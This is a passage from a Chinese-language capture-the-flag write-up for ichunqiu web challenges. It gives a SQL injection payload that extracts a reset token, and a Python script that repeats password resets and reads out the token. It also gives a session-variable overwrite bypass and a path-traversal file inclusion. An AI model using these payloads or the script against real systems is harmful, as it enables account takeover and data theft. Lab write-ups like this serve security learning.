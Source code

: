 利用reset操作计算验证码，`/level.php?name=-1' union select concat(0x23,token,0x23) from token where username = 'member'%23`

```
import urllib2
import urllib
import sys
import requests

def getpass():
    html = requests.options('http://8fb6a7f18e9841cba75ec373f64821f9cadcd4396ed045af.changame.ichunqiu.com/level.php?name=-1%27%20union%20select%20concat(0x23,token,0x23)%20from%20token%20where%20username%20=%20%27member%27%23').text
    print(html)
    fd1 = html.find('#')
    fd2 = html.find('#', fd1+1)
    return html[fd1+1:fd2]

def reset():
    data = {'username': 'member'}
    data = urllib.urlencode(data)
    html = urllib2.urlopen('http://8fb6a7f18e9841cba75ec373f64821f9cadcd4396ed045af.changame.ichunqiu.com/reset.php', data).read()


fp = open('ichunqiu.txt', 'r')
hs = fp.readlines()
fp.close()
for i in range(1000):
    reset()
    pwd = getpass()
    print(str(i))
    for j in hs:
        if pwd in j:
            print(j)
            print('token found')
            sys.exit(0)
```

最终跑出来验证码，重置成功，多跑几次，有的时候会报错，![image](http://note.youdao.com/yws/res/949/1663B1AC30F043DBB75B2D8E6FC9AC55)

5.登录后提示flag在Get_Fl3g_e165421110ba03099a1c0393373c5b43.php，然后访问提示.txt，访问Get_Fl3g_e165421110ba03099a1c0393373c5b43.txt，出现源码，代码审计，通过?_SERVER[_SESSION][admin]=yes绕过

最后找到flag，但提交不正确
![image](http://note.youdao.com/yws/res/963/46DA5245CC5348A5B6FBBA97BB5B6EF5)

[出题人讲解视频](https://www.ichunqiu.com/course/56349)

## blog进阶

1.第一步和前面相似，注入得出admin和19-10-1997进到管理页面，这里伪协议失效了，但是文件包含还是可以执行，访问/blog_manage/manager.php?module=../robotxs&name=txt可以看见flag.php路径
